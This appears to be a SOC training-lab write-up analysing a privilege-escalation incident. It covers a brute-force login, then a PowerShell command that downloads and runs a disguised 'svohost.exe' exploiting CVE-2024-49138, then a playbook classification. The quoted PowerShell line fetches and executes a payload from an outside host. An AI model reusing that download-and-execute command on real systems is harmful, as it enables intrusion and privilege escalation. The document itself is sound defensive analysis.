 ### 2. Reconstructing the Multi-Stage Attack Chain

The investigation pieced together a clear, two-part attack chain.

**Stage 1: Initial Access via Brute-Force**
Before the exploit was run, log analysis revealed a successful brute-force attack against the host from the IP `185.107.56.141`. This was the initial vector that gave the attacker their low-privileged foothold.
<img width="1481" height="747" alt="image" src="https://github.com/user-attachments/assets/893dd81e-c12a-4fc2-8e58-69bf844659eb" />

**Stage 2: Payload Delivery and Execution**
After gaining access, the attacker used PowerShell to download and deploy the exploit.
*   **Download Command:**
    ```powershell
    $url = 'https://files-ld.s3.us-east-2.amazonaws.com/service-installer.zip'; $dest = 'C:\temp\service-installer.zip'; ... Invoke-WebRequest -Uri $url -OutFile $dest; ... Start-Process -FilePath "$extractPath\service_installer\svohost.exe"
    ```
*   **Explanation:** This command downloads a password-protected ZIP file, extracts its contents (including `svohost.exe`) to `C:\temp`, and then executes the malicious program.

**Stage 3: Privilege Escalation**
The execution of `svohost.exe` triggered the CVE-2024-49138 exploit.
*   **Process Chain:** The EDR logs show the clear parent-child relationship: `powershell.exe` -> `svohost.exe` -> `conhost.exe`. This is a highly anomalous chain. `svohost.exe` is a malicious executable typosquatting the legitimate `svchost.exe`, and its execution from a temp directory by PowerShell is a major red flag.
    <img width="1571" height="657" alt="image" src="https://github.com/user-attachments/assets/09e763f4-4b97-4ee6-9128-f6597f0d06ec" />
*   **Confirmation:** The `Device Action: Allowed` confirms the entire chain executed without being blocked. Threat intelligence from VirusTotal (50 detections) and the PDB path within the file (`C:\...CVE-2024-49138-POC.pdb`) definitively link this executable to the exploit.
    <img width="1809" height="882" alt="image" src="https://github.com/user-attachments/assets/37fc162d-990c-4231-883d-38c5c6ea6268" />

**Stage 4: Post-Escalation Activity**
After successfully gaining SYSTEM privileges, the attacker ran `whoami.exe`. This is a common first step for an attacker to verify that their privilege escalation was successful and to confirm they are now running as a high-privileged user.

## Skills and Tools Utilized

*   **Tools Used:** SIEM, EDR, Firewall Logs, VirusTotal, Hybrid Analysis
*   **Skills Demonstrated:** LPE Analysis (CVE-2024-49138), Log Correlation, Attack Chain Reconstruction, LOLBin Technique Recognition, PowerShell Analysis.

## Playbook Solution: Incident Classification

*   **Is Traffic Malicious?** **Yes.** The activity includes a brute-force attack and the download/execution of a known exploit.
*   **What Is The Attack Type?** **Privilege Escalation.**
*   **Was the Attack Successful?** **Yes.** The exploit was executed, and the attacker gained SYSTEM privileges.
*   **Do You Need Tier 2 Escalation?** **Yes.** A full system compromise at the SYSTEM level is a critical incident.
*   **Incident Classification:** **True Positive.**
